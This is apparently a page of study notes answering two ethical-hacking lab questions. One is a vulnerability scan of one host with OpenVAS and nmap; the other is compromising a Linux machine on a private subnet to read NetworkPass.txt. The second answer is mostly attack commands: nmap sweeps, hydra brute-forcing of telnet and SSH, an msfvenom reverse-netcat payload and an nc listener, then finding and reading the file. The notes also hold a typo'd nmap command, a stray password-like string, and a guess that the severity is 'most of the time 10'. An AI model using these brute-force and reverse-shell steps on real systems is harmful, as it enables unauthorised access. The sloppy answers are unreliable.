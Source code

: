 5.Perform a vulnerability scan for the host with IP address 172.20.0.16. What is the severity score of a vulnerability that indicates the End of Life of a web development language platform?

```bash
Start the OpenVAS service, and access the web interface.
In the OpenVAS web interface, create a new target with the IP address.
Create a new task, and associate it with the target you just created.
Start the vulnerability scan by running the task.
#10
Review Scan Results:
After the scan is complete, review the scan results to identify vulnerabilities.

Identify the End-of-Life Vulnerability:
Look for vulnerabilities related to the End-of-Life (EOL) of the web development language platform. 
This might be indicated in the scan results with a high severity score.

Retrieve Severity Score:
Retrieve the severity score associated with the vulnerability indicating the End-of-Life 
of the web development language platform.

---
1. nmap -Pn - -script vuln 172.20.0.16
2. now copy the CVE number which is vulnerable paste in goggle and see the value.
3. Most of the time “10”.
example CVE-2006-3392 https://www.cvedetails.com/cve/CVE-2006-3392/
```

6.Exploit a remote login and command-line execution application on a Linux target in the 192.168.0.0/24 subnet to access a sensitive file, NetworkPass.txt. Enter the content in the file as answer.

```bash
nmap -T4 -A 192.168.x.x/2x
OR 
nmap -T4 -A -p 80,443 192.168.x.x/2x
#F56C8p@
Look out for telnet or ssh and bruteforce it
hydra -L username_file -P password_file TARGET_IP telnet
or
hydra -L username_file -P password_file TARGET_IP ssh

Login to the identified service and search for the file

---
1. Use Hydra to break the password Telnet, login and access the file, and enter the flag.
2. Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server Task-7
3. Nmap -p 22,23,80,3389 192.168.0.0/24
4. sudo nmap -sS -sV -p- -O <ip>
5. telnet 192.168.0.19 80 and GET / HTTP/1.0
6. hydra -L user.txt -P pass.txt 192.168.0.1 ssh
7. hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.106 telnet
8. ssh ubuntu@192.168.0.1
9. telnet 192.168.0.1
10. msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=444 and copy the path go to target machine
after login paste now find . -name flag.txt
11. start listen nc -lnvp 444
12. password type
13. ls
14. find . -name NetworkPass.txt
15. cat /path/NetworkPass.txt
```
